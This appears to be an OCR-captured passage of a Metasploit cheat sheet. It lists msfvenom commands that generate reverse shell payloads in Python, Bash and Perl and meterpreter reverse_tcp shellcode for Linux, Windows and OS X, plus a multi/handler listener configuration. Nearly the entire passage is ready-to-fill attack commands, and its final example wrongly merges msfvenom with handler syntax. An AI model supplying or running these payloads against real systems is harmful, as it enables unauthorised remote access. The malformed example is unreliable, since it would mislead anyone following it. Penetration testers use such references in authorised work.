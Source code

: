 - WAR

### **Scripting Payloads**

```bash
msfvenom -p cmd/unix/reverse_python LHOST= LPORT= -f raw > shell.py
```

- Python

```bash
msfvenom -p cmd/unix/reverse_bash LHOST= LPORT= -f raw > shell.sh
```

- Bash

```bash
msfvenom -p cmd/unix/reverse_perl LHOST= LPORT= -f raw > shell.pl
```

- Perl

### **Shellcode**

For all shellcode see ‘msfvenom –help-formats’ for information as to
valid parameters. Msfvenom will output code that is able to be cut and
pasted in this language for your exploits.

```bash
msfvenom -p linux/x86/meterpreter/reverse_tcp LHOST= LPORT= -f
```

```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f
```

```bash
msfvenom -p osx/x86/shell_reverse_tcp LHOST= LPORT= -f
```

### **Handlers**

Metasploit handlers can be great at quickly setting up Metasploit to
be in a position to receive your incoming shells. Handlers should be in
the following format.

```
exploit/multi/handler set PAYLOAD set LHOST set LPORT set ExitOnSession false exploit -j -z
```

An example is:

```
msfvenom exploit/multi/handler -p windows/meterpreter/reverse_tcp LHOST= LPORT= -f > exploit.extension
```

# **Powershell**
